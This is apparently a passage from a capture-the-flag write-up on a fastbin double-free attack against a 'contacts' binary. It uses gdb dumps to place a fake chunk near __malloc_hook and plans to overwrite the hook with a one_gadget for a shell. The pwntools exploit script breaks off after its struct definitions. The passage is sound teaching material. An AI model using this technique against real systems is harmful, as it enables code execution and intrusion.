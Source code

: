 But if we step back 0x23 bytes, we get:
```
gdb-peda$ x /12xg (char*)&__malloc_hook-0x23
0x7ffff7dd1aed: 0xfff7dd0260000000      0x000000000000007f
0x7ffff7dd1afd: 0xfff7a92e20000000      0xfff7a92a0000007f
0x7ffff7dd1b0d <__realloc_hook+5>:      0x000000000000007f      0x0000000000000000
0x7ffff7dd1b1d: 0x0100000000000000      0x0000000000000000
0x7ffff7dd1b2d: 0x0000000000000000      0x0000000000000000
0x7ffff7dd1b3d: 0x0000000000000000      0x0000000000000000
```

If we interpret this memory as a chunk (mchunkptr), this gives us a chunk size of 0x7f which fits the fastbin criteria! We just need to make sure that the rest of our allocations belong to the same bin (the 0x70 bin). Therefore, we need to use ~0x60 byte allocations (which have the overhead of 0x10 bytes metadata - see detailed explanation [here](https://github.com/shellphish/how2heap/issues/71)).

Remember - after freeing `FBMem1` for the second time, our fast bin was as follows:
```
head -> FBMem1 -> FBMem2 -> FBMem1 (-> FBMem2 -> FBMem1 -> ...)
```

Now we perform the following sequence:
1. We allocate `FBMem3`: Heap manager removes the memory chunk previously known as `FBMem1` from the head of the linked list, and returns it to us. Fastbin is now ` head -> FBMem2 -> FBMem1 (-> FBMem2 ...)`
2. We overwrite `FBMem3` (a.k.a. `FBMem1`) with the specially crafted `__malloc_hook - 0x23` buffer. Since there is another instance of `FBMem1` in the linked list, it now looks like: `head -> FBMem2 -> FBMem1 -> fake_chunk -> ?`
3. We allocate `FBMem4`: Heap manager removes the memory chunk previously known as `FBMem2` from the head of the linked list, and returns it to us. Fastbin is now ` head -> FBMem1 -> fake_chunk -> ?`
4. We allocate `FBMem5`: Heap manager removes the memory chunk previously known as `FBMem1` and currently also known as `FBMem3` from the head of the linked list, and returns it to us. Fastbin is now ` head -> fake_chunk -> ?`
5. We allocate `FBMem6`: Heap manager removes the fake memory chunk from the linked list, and using `FBMem6` we now have access to the memory range we wanted to control.


Once we receive control of the allocated chunk which contains `__malloc_hook`, we can override the `__malloc_hook` pointer by writing to offset 0x13 from the user data pointer (which in turn is 0x10 bytes from the beginning of the memory chunk, summing up to 0x23).

We use [One Gadget](https://github.com/david942j/one_gadget) to find a magic gadget, and we're done - the next allocation we make will call the magic gadget and give us a shell.

Putting it all together:
```python
from pwn import *
from ctypes import *
import re

PROGRAM = "./contacts"
LIBC = "./libc.so.6"
MAX_BIO_LEN = 255


class c_struct(Structure):
    def to_bytes(self):
        return buffer(self)[:]

class Contact(c_struct):
    _fields_ = [('p_name', c_int64),
                ('p_bio', c_int64)]

#The "user data" part of struct malloc_chunk
class MallocChunkInternal(c_struct):
    _fields_ = [('p_fd', c_int64),
                ('p_bk', c_int64)]
```